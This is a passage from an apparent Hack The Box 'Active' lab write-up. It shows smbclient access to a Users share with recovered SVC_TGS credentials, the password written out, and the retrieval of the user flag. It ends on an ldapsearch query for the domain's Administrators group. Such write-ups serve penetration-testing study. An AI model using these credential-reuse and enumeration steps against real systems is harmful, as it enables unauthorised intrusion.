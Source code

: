 Now I have access to NETLOGON, SYSVOL and USERS

#### Command
```
smbclient //10.10.10.100/Users -U active.htb/SVC_TGS%GPPstillStandingStrong2k18  
```

```
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 10:39:20 2018
  ..                                 DR        0  Sat Jul 21 10:39:20 2018
  Administrator                       D        0  Mon Jul 16 06:14:21 2018
  All Users                       DHSrn        0  Tue Jul 14 01:06:44 2009
  Default                           DHR        0  Tue Jul 14 02:38:21 2009
  Default User                    DHSrn        0  Tue Jul 14 01:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:57:55 2009
  Public                             DR        0  Tue Jul 14 00:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 11:16:32 2018

                5217023 blocks of size 4096. 278601 blocks available
smb: \> cd SVC_TGS\
smb: \SVC_TGS\> LS
  .                                   D        0  Sat Jul 21 11:16:32 2018
  ..                                  D        0  Sat Jul 21 11:16:32 2018
  Contacts                            D        0  Sat Jul 21 11:14:11 2018
  Desktop                             D        0  Sat Jul 21 11:14:42 2018
  Downloads                           D        0  Sat Jul 21 11:14:23 2018
  Favorites                           D        0  Sat Jul 21 11:14:44 2018
  Links                               D        0  Sat Jul 21 11:14:57 2018
  My Documents                        D        0  Sat Jul 21 11:15:03 2018
  My Music                            D        0  Sat Jul 21 11:15:32 2018
  My Pictures                         D        0  Sat Jul 21 11:15:43 2018
  My Videos                           D        0  Sat Jul 21 11:15:53 2018
  Saved Games                         D        0  Sat Jul 21 11:16:12 2018
  Searches                            D        0  Sat Jul 21 11:16:24 2018

                5217023 blocks of size 4096. 278601 blocks available
smb: \SVC_TGS\> CD DESKTOP
smb: \SVC_TGS\DESKTOP\> ls
  .                                   D        0  Sat Jul 21 11:14:42 2018
  ..                                  D        0  Sat Jul 21 11:14:42 2018
  user.txt                           AR       34  Sun Mar 31 05:47:54 2024

                5217023 blocks of size 4096. 278601 blocks available
smb: \SVC_TGS\DESKTOP\> get user.txt
getting file \SVC_TGS\DESKTOP\user.txt of size 34 as user.txt (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)
smb: \SVC_TGS\DESKTOP\> 
```


### Admin Flag

**query Active DIrectory via ldapsearch**
```
ldapsearch -x -H ldap://10.10.10.100 -D 'active\SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "CN=Administrators,CN=Builtin,DC=active,DC=htb"
```


